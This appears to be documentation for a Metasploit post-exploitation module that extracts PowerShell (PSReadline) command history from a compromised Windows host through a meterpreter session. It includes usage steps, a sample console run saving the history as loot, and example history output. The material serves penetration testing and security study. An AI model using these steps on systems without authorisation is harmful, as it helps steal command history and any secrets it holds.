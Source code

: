 ## Vulnerable Application

  This post-exploitation module will extract PowerShell history.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/psreadline_history`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted PowerShell history in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Scenarios

  **Using the module with a version earlier than PowerShell 5.0**

  In this scenario the module won't be able to work, as in earlier versions of PowerShell, the history of the commands in the current session is not being saved after it is closed.

  **Using the module with PowerShell 5.0+**

  In this scenario the module will try to extract the history file and save it in a loot file.

  ```
  msf exploit(handler) > use post/windows/gather/psreadline_history 
  msf post(psreadline_history) > set SESSION 1
  SESSION => 1
  msf post(psreadline_history) > run

  [*] Writing history to loot...
  [*] PSReadline history file of user IEUser saved to /home/user/.msf4/loot/20181223050921_default_10.0.2.15_ps.history_688257.txt
  [*] Post module execution completed
  ```

  The extracted history data would look like this:

  ```
  cd
  cls
  1+5
  Get-Help -Name Get-*
  Set-ExecutionPolicy Unrestricted
  Get-Service | Export-CSV c:\service.csv
  ```
